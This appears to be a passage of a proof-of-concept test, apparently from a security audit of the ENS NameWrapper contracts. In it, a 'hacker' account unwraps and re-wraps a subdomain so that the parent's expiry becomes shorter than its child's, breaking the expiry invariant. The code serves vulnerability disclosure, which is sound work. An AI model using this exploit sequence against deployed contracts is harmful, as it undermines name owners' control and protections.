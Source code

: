 ```javascript=
      const wrappedSubTokenId = namehash(subDomain)
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId,
        subLabel,
        hacker,
        PARENT_CANNOT_CONTROL,
        MAX_EXPIRY
      )
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubTokenId)).to.equal(hacker)
      expect(
          (await NameWrapper.getFuses(wrappedSubTokenId))[1]
      ).to.equal(expiry)

      // assign a subsubmomain
      const subSubLabel = 'sub2'
      const subSubLabelHash = labelhash(subSubLabel)
      const subSubDomain = subSubLabel + '.' + subDomain
      const wrappedSubSubTokenId = namehash(subSubDomain)
      await NameWrapperH.setSubnodeOwner(
        wrappedSubTokenId,
        subSubLabel,
        hacker,
        PARENT_CANNOT_CONTROL,
        MAX_EXPIRY
      )
      expect(await EnsRegistry.owner(wrappedSubSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubSubTokenId)).to.equal(hacker)
      expect(
          (await NameWrapper.getFuses(wrappedSubSubTokenId))[1]
      ).to.equal(expiry)

      // the hacker unwraps his wrappedSubTokenId
      await NameWrapperH.unwrap(wrappedTokenId, subLabelHash, hacker)
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(hacker)

      // the hacker re-wrap his wrappedSubTokenId by NameWrapper.setSubnodeOwner
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId,
        subLabel,
        hacker,
        PARENT_CANNOT_CONTROL,
        expiry - 7200
      )
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubTokenId)).to.equal(hacker)

      ///////////////////////////
      // Attack successed!
      ///////////////////////////

      // XXX: the expiry of sub1.base.eth is smaller than the one of sub2.sub1.base.eth
      const sub1_expiry = (await NameWrapper.getFuses(wrappedSubTokenId))[1]
      const sub2_expiry = (await NameWrapper.getFuses(wrappedSubSubTokenId))[1]
      console.log('sub1 expiry:', sub1_expiry)
      console.log('sub2 expiry:', sub2_expiry)
      expect(sub1_expiry.toNumber()).to.be.lessThan(sub2_expiry.toNumber())
```